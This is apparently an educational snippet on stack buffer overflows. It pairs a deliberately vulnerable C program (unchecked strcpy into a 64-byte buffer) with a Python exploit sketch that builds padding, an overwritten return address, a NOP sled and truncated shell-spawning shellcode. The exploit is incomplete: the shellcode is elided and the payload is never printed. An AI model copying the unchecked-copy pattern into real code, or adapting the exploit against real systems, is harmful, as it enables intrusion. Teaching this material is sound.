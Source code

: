 **Stack-based buffer overflow:**

**Vulnerable code:**
```c
#include <stdio.h>
#include <string.h>

void vulnerable_function(char *input) {
    char buffer[64];
    strcpy(buffer, input);  // No bounds checking!
    printf("Buffer: %s\n", buffer);
}

int main(int argc, char **argv) {
    if (argc > 1) {
        vulnerable_function(argv[1]);
    }
    return 0;
}
```

**Exploitation:**

```python
# Generate payload to overwrite return address
import struct

# Step 1: Find offset to return address
# Use pattern_create (pwntools or msf-pattern_create)
# python3 -c 'from pwn import *; print(cyclic(200))'

# Step 2: Run program with pattern, crash at EIP=0x61616171
# Use pattern_offset to find offset:
# python3 -c 'from pwn import *; print(cyclic_find(0x61616171))'
# Offset: 76 bytes

# Step 3: Craft payload
offset = 76
return_address = struct.pack("<I", 0x08048484)  # Address of shellcode or gadget
nop_sled = b"\x90" * 16  # NOP sled
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68..."  # Shellcode (spawn shell)

payload = b"A" * offset + return_address + nop_sled + shellcode

# Run:
# ./vulnerable "$(python3 exploit.py)"
```

**Stack layout during overflow:**

```
High memory
-----------------
[Return address]   <-- Overwrite with shellcode address
[Saved EBP]        <-- Overwritten
[buffer[64]]       <-- Buffer overflow starts here
...
Low memory
```
